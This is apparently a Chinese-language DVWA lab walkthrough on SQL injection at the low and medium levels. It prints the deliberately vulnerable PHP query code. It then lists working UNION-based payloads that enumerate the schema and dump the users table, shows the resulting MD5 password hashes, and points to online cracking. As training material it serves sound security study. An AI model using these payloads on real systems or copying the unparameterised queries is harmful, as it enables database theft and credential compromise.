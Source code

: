 <center>SQL InjectionSQL注入</center>







[toc]









## SQL InjectionSQL注入

> SQL注入







### 1. low

> 低级
>
> 代码

```php

<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

```

> 没有做任何过滤,查询两列，所以sql语句也只能查两个。



SQL注入思路

> 任务是：`脱库`，获取所有数据。

1. 确认是否有注入

```shell
1' or '1'='1
```

2. 获取当前数据库

```sql
库名
1' union select 1,database()#  

表名
1' union select 1,group_concat(table_name) COLLATE utf8_general_ci from information_schema.tables where table_schema=database() #

表字段名
1' union select 1,group_concat(column_name) COLLATE utf8_general_ci from information_schema.columns where table_name='users' #
```

3. 脱库

```shell
1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(user,password) from users #
1' or 1=1 union select * from users #
```

> 获取到数据, 密码对应的用户名等信息。

```shell
1adminadmin,2GordonBrown,3HackMe,4PabloPicasso,5BobSmith
Surname: admin202cb962ac59075b964b07152d234b70,gordonbe99a18c428cb38d5f260853678922e03,13378d3533d75ae2c3966d7e0d4fcc69216b,pablo0d107d09f5bbe40cade3de5c71e9e9b7,smithy5f4dcc3b5aa765d61d8327deb882cf99
```

> [md5](https://cmd5.com/) 解密获取明文密码。牛皮。







### 2. medium

> 中级
>
> 代码

```php

<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

```

> `mysqli_real_escape_string`转义特殊字符

> burp抓包，该包，用sql注入思路获取数据。

```shell
1. 确认是否有注入
id=1 or 1=1 

2. 获取数据
id=1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(user,password) from users #&Submit=Submit
```

